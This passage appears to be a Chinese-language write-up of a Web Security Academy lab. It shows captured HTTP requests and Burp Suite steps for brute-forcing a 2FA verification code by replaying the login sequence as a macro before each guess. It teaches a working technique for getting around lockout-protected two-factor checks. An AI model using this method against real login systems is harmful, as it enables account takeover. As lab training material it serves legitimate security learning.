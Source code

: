     Referer: https://ac171f9f1e3838a2c054a9db007d0000.web-security-academy.net/login
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9
    Connection: close
    
    csrf=dHWiXB6G66SGpmF6ZwIKsVUdTOEIFFQY&username=carlos&password=montoya

	3.发送完后，302响应，response中生成session，跳转到/login2
    HTTP/1.1 302 Found
    Location: /login2
    Set-Cookie: session=UF1oH2KKMVWNh9F5Y0pPaazqZIqtUv84; Secure; HttpOnly; SameSite=None
    Connection: close
    Content-Length: 0
	4./login2页面加载时用以上生成的session，Response中有csrf标识2，
	<input required type="hidden" name="csrf" value="inVLUd6YQsTfTNJJxx4bNQPGTXzY4MbZ">
	5.第二步验证输入的验证码和csrf标识2一起发送，进行第二步验证码的校验，
    POST /login2 HTTP/1.1
    Host: ac171f9f1e3838a2c054a9db007d0000.web-security-academy.net
    Cookie: session=UF1oH2KKMVWNh9F5Y0pPaazqZIqtUv84
    Content-Length: 51
    Cache-Control: max-age=0
    Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="99"
    Sec-Ch-Ua-Mobile: ?0
    Sec-Ch-Ua-Platform: "Windows"
    Upgrade-Insecure-Requests: 1
    Origin: https://ac171f9f1e3838a2c054a9db007d0000.web-security-academy.net
    Content-Type: application/x-www-form-urlencoded
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
    Sec-Fetch-Site: same-origin
    Sec-Fetch-Mode: navigate
    Sec-Fetch-User: ?1
    Sec-Fetch-Dest: document
    Referer: https://ac171f9f1e3838a2c054a9db007d0000.web-security-academy.net/login2
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9
    Connection: close
    
    csrf=inVLUd6YQsTfTNJJxx4bNQPGTXzY4MbZ&mfa-code=3333

综上，由于第二步验证码输错2次，会自动登出，再次进行第一步认证后，csrf标识2重新获取了，因此直接爆破第二步验证码无法成功，必须建立宏macro，将login加载，login发送用户名密码，login2加载，这三个请求包顺序发送，即整体发送一次，爆破一次验证码。三个请求如下：

	GET /login
	POST /login
	GET /login2

实现：

	1.进入project option>sessions，在session handling rules中点击add。
	2.在弹出框中，进入Scope，在URL Scope中选择include all URLs。
	3.返回到Details中，在Rule Actions中选择add>Run a macro.
	4.在Select macro中点击add打开Macro Recorder。选择以下3个请求：
	GET /login
	POST /login
	GET /login2
    5.点击test macro进行测试，检测最后结果是否停留在输入第二步验证码的页面。
	6.接下来将用intruder爆破验证码，注意在Resource pool中选择并发度为1，顺序发送请求，否则乱序发送会导致失败。
